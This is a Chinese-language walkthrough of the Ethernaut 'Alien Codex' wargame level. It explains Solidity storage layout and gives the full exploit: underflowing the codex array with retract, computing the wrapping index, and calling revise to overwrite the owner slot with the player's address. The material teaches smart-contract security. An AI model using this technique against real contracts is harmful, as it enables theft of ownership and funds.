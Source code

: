 You've uncovered an Alien contract. Claim ownership to complete the level.

 Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }

  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```







参考链接1https://cyanwingsbird.blog/solidity/ethernaut/19-alien-codex/

参考链接2https://ethereum.stackexchange.com/a/113907

参考链接3https://cmichel.io/ethernaut-solutions/





这个puzzle还是考察合约的slot分布的，可以稍微参考Hack Solidity中的4.Accessing Private Data

```solidity
abstract contract Ownable is Context {
    address private _owner;
}
```

因为继承了[Ownable](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol)，所以AlienCodex中 slot 0 就是 _owner，因为address是20个字节，不足32个字节，所以contact也存在 slot 0 上

```javascript
await web3.eth.getStorageAt(instance, 0 )
// 0x0000000000000000000000003c34a342b2af5e885fcaa3800db5b205fefa3ffb
```

先使用api查看一下 slot 0，可以看到3c前边的一个字节是00，当我们调用 **contract.make_contact()** 使contac这个布尔值变为true之后，再用api查看 slot 0

```js
await web3.eth.getStorageAt(instance, 0 )
// 0x0000000000000000000000013c34a342b2af5e885fcaa3800db5b205fefa3ffb
```

可以看到3c前边那个字节已经变成01了，所以从侧面就证明了contact和_owner都存于 slot 0 上

```js
await web3.eth.getStorageAt(instance, 1 )
// 0x0000000000000000000000000000000000000000000000000000000000000000
```

再用api查看 slot 1，根据官方文档的[Mappings and Dynamic Arrays](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#mappings-and-dynamic-arrays)，动态数组的长度即本puzzle中的codex数组的长度存在 slot 1 上，其中每个item存在 **slot ( keccak256(1) + i )**上，此时，可以看到，因为是空数组长度为0，所以返回值也为0

调用 **contract.retract()** 使数组长度发生underflow

```js
await web3.eth.getStorageAt(instance, 1 )
// 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

使用api看到数组的长度发生了underflow，此时的值为2^256 - 1

```erlang
p = keccak256(slot)
or, p = keccak256(1)


Slot        Data
------------------------------
0             owner address, contact bool
1             codex.length
    .
    .
    .
p             codex[0]
p + 1         codex[1]
    .
    .
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)

------------------------------
slot 0: contact, _owner
slot 1: codex.length
// ...
slot keccak(1): codex[0]
slot keccak(1) + 1: codex[1]
slot keccak(1) + 2: codex[2]
slot keccak(1) + 3: codex[3]
slot keccak(1) + 4: codex[4]
// ...
```

根据**SLOAD**的定义：`key`: 32-byte key in storage，可以知道一个contract中有2^256个slot，序号为 0 - 2^256 - 1

当slot的index值达到2^256的时候会发生overflow，即wrap around回0，codex数组位于slot p，其中p的值为keccak256(1)，将slot 0看作是codex的第**i**个元素，那么给codex[i]赋值就相当于给_owner赋值，所以我们此时只需要找出来能够发生overflow时**i**的值就可以了，公式如下：

keccak256(1) + i = 2^256

这里第一个需要注意的地方：solidity中使用的keccak256中所要传递的参数需要pack，所以和普通的keccak256有一些不一样，web3js中有两个api，一个[sha3](https://web3js.readthedocs.io/en/v1.8.0/web3-utils.html#sha3)，一个[soliditySha3](https://web3js.readthedocs.io/en/v1.8.0/web3-utils.html#soliditysha3)，ethers中有两个api，一个[keccak256](https://docs.ethers.io/v5/single-page/#/v5/api/utils/hashing/-%23-utils-keccak256)，一个[solidityKeccak256](https://docs.ethers.io/v5/single-page/#/v5/api/utils/hashing/-%23-utils-solidityKeccak256)，注意它们的区别，在js中使用solidity版本的

```js
// ×
web3.utils.keccak256("1")
// √
web3.utils.soliditySha3({type: 'uint', value: '1'})
web3.utils.soliditySha3(1)  // 简化写法
// √
ethers.utils.solidityKeccak256([ "uint" ], [1])
```

第二个需要注意的地方：在js中，因为都是32个字节的数字，非常大，所以需要用BigInt包裹，所以在JavaScript中的计算方法如下

```js
BigInt(2**256) - BigInt(web3.utils.soliditySha3(1))
```

想要调用 **revise(uint i, bytes32 _content)**，此时我们已经确定了**i**的值，还需要传入一个bytes32类型的值，这个值在solidity中可以这样计算

```solidity
  function exploit () external pure returns(bytes32) {
  	// 0x0000000000000000000000007FA7fB4D35f0F4F3959A65098D1D9Cf69E49Ac48
    bytes32 myAddress = bytes32(uint256(uint160(0x7FA7fB4D35f0F4F3959A65098D1D9Cf69E49Ac48)));
    return myAddress;
  }
```

在js中可以使用web3中的[padLeft](https://web3js.readthedocs.io/en/v1.7.5/web3-utils.html#padleft)或者ethers中的[hexZeroPad](https://docs.ethers.io/v5/single-page/#/v5/api/utils/bytes/-%23-utils-hexZeroPad)来计算

```js
web3.utils.padLeft(player, 64) // 注意这里是64
ethers.utils.hexZeroPad(player, 32)
// 0x0000000000000000000000007FA7fB4D35f0F4F3959A65098D1D9Cf69E49Ac48
```

两种语言计算的结果是一样的

```js
contract.revise( BigInt(2**256) - BigInt(web3.utils.soliditySha3(1)), web3.utils.padLeft(player, 64) )
```

我们现在可以调用**revise**来进行attack了

```js
await web3.eth.getStorageAt(instance, 0 )
// 0x0000000000000000000000007fa7fb4d35f0f4f3959a65098d1d9cf69e49ac48
```

attack之后再调用api查看slot 0，这时可以发现已经变为我们player的地址了

submit instance之后puzzle完成



几个能用到的api

拿本puzzle举例，假如我们要查看codex[0]，那么我们可以使用：

```js
await web3.eth.getStorageAt(instance, web3.utils.soliditySha3({type: 'uint', value: '1'}) )
```

这里我们令 hash = web3.utils.soliditySha3({type: 'uint', value: '1'})

如果我们要查看codex[1]，则需要将hash增加1，用js将一个哈希字符串自增1的方法如下：

hexdecimal increasing:   (**BigInt(hash) + 1n**).toString(16)







